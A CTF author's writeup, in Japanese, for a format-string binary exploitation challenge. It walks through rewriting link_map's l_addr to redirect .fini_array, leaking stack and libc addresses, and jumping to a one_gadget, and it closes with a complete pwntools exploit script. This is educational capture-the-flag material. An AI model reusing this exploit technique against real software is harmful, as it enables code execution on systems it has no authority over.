

# 第2回サイバーセキュリティ・スクール (CTF編) 2022 `FSA Lv.99 [バイナリハック]` writeup

大阪大学CTFサークル Wani Hackase所属のCaffeineと申します☕。

2022/09/15(金)に開催されました『第2回サイバーセキュリティ・スクール (CTF編)』で出題した`FSA Lv.99`の作問者writeupを公開します。

本問題について、イベント内の90分という限られた時間で解くにしては作業量が多すぎたと後悔しています。

本イベント及び付随するCTFは、専門知識を持ち合わせていない初学者向けに実施しておりました。
そんな中、CTF経験豊富な方々も楽しんでいただけるようにとFormat String Attack (FSA)のとびきり難しそうな問題を用意しました(初心者向け問題の出題テーマがFSAだったため)。
しかしCTFが終了してみるとsolve数0と大失敗でした。大変申し訳ございません。

以下writeupです。

## 問題
ソースコードと実行バイナリ、libc、Docker環境など一式提供されています。
以下はソースコードです。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void init(){
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

int main(){
    char buf[0x30];
    init();
    scanf("%47s", buf);
    printf(buf);
    return 0;
}
```

## 解法
ソースコードは非常にシンプルな作りです。
0x30バイト分のバッファにユーザからの入力を受け付けてprintf(buf)で出力します。
ここに自明なFormat String Bugがあります。
しかしながら、1度printf()を呼んだ後main()は終了してしまいます。
必要なアドレスをリークしながら、mainをもう一度呼ぶことはできるでしょうか。

ここでセキュリティ機構を確認しましょう。

```
[*] '/home/caffeine/ctf/west_sec22/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

PIE無効、それ以外は全部有効です。Full RELROなのでGOTを書き換えてret2mainすることはできません (仮にPartial RELROだとしても__stack_chk_failくらいしか狙えませんし呼ぶこともできないはずです)。

このような場合、mainからreturnした後に実行されるデストラクタ内で制御を奪う手法が効果的です。
mainが終了すると続いてexitが呼ばれます。
exitの中では、.fini_array上に置かれたデストラクタ関数を順に呼び出します。
RELROが有効でなければ.fini_arrayをmainに書き換えてret2mainを成立させたいところですが、本問はFull RELROなので.fini_arrayに対して書き込みの権限がありません。

そこで、.fini_arrayのアドレス解決を狙います。
.fini_arrayのアドレス解決には、link_map構造体の変数l_addrを使用します。
l_addrにはELFとメモリ空間のアドレスのオフセットが入っています (PIE無効の場合は0, 有効だと0x55...みたいな値が入っている)。
この値を書き換えることができれば、.fini_arrayのアドレスを書き込み可能な.bssセクションに偽装することができます。
そして有難いことに、l_addrのアドレスは最初にプログラムをメモリに乗せる際にスタックに格納されます。



これがFSAの格好の的だというのが本問の出題意図でした。

ret2mainの方針さえ立てば後はやるだけですが、一応自分のexploitの方針を載せておきます。
bufのサイズが0x30バイトしかないので、このexploitでは3回に分けて攻撃を行います。

1回目のmainでは
1. .fini_arrayが.bssセクションに偽装されるようにl_addrを書き換える。
2. 該当する.bssセクションのアドレスをにmainのアドレスを書き込む。
3. スタックをダンプしてスタックのアドレスをleakする。

を達成します。

2回目のmainでは
1. returnアドレスを_startに書き換える。
2. libcをリークする。

を達成します。
exitの途中で制御を奪っただけなので、このままmainを終了しても再びmainに復帰するわけではないことに注意してください。

3回目のmainでは
1. one gadgetの制約を満たすようにスタックにあるアドレスに0を書き込む。
2. returnアドレスをone gadgetに書き換える。

を達成します。

## Exploit
```py
from concurrent.futures import process
import sys
from pwn import *

elf = ELF("chall")
libc = ELF("libc.so.6")

io = process(elf.path)
# io = remote("54.152.139.83", 9005)

gdb.attach(io,'''
    b *0x0000000000401226
''')

one_gadget1 = 0xe3afe
one_gadget2 = 0xe3b01
one_gadget3 = 0xe3b04

bss_addr = 0x404090
offset = bss_addr - elf.sym["__do_global_dtors_aux_fini_array_entry"]
payload = b"%%%dc%%34$n" % offset
offset = elf.sym["main"] - offset
payload += b"%%%dc%%10$n" % offset
payload += b"%12$p"
payload += b"A" * (0x20 - len(payload))
payload += p64(bss_addr)
io.sendline(payload)

ret = io.recvuntil(b"AAA\x90@@")
stack_arena_addr = int(ret[-18:-6].decode(), 16)

ret_addr = stack_arena_addr - 456

payload = b"%9$n"
payload += b"%*37$c%10$n"
payload += b"%24$p"
payload += b"A" * (0x18 - len(payload))
payload += p64(ret_addr + 4)
payload += p64(ret_addr)
io.sendline(payload)

ret = io.recvuntil(b"AAAA")
libc.address = int(ret[-16:-4].decode(), 16) - libc.sym["_IO_2_1_stderr_"]

print("libc addr: " + str(hex(libc.address)))
ret_addr -= 0xe0
payload = b"%25$n"
b = ((libc.address + one_gadget2) >> 16)  & 0xff
payload += b"%%%dc%%10$hhn" % b
b = (((libc.address + one_gadget2) & 0xffff) - b)
payload += b"%%%dc%%11$hn" % b
payload += b"A" * (0x20 - len(payload))
payload += p64(ret_addr + 2)
payload += p64(ret_addr)

io.sendline(payload)


io.interactive()
```
